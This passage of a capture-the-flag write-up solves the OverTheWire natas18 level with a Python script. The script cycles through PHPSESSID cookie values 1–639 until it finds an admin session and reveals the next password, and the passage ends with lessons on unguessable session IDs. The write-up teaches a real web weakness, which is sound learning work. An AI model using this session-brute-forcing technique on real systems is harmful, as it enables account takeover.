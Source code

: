 #### Step 2: Loop over the PHPSESSID values

```python
for id in range(1, 640):
```

#### Step 3: Web Server Request

```python
import requests

print(f'Trying PHPSESSID={ id }')
response = requests.get('http://natas18.natas.labs.overthewire.org/index.php', auth=("natas18", password), cookies={ "PHPSESSID": id })
```

#### Step 4: Response Handling

```python
if 'You are logged in as a regular user' not in response.text:
    print(response.text)
    break
```

And that's it! Bringing it all together:

```python
import getpass
import requests

#### Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas18: ')

#### Step 2: Loop over the PHPSESSID values
for id in range(1, 640):
    #### Step 3: Web Server Request
    print(f'Trying PHPSESSID={ id }')
    response = requests.get('http://natas18.natas.labs.overthewire.org/index.php', auth=("natas18", password), cookies={ "PHPSESSID": str(id) })

    #### Step 4: Response Handling
    if 'You are logged in as a regular user' not in response.text:
        print(response.text)
        break
```

Running this command, and waiting for many HTTP requests, produces the
`natas19` password.

## Key Takeaways

- It's important to never trust user-controlled data
- It's secure to store session data on the server, but the session ID must not
  be guessable

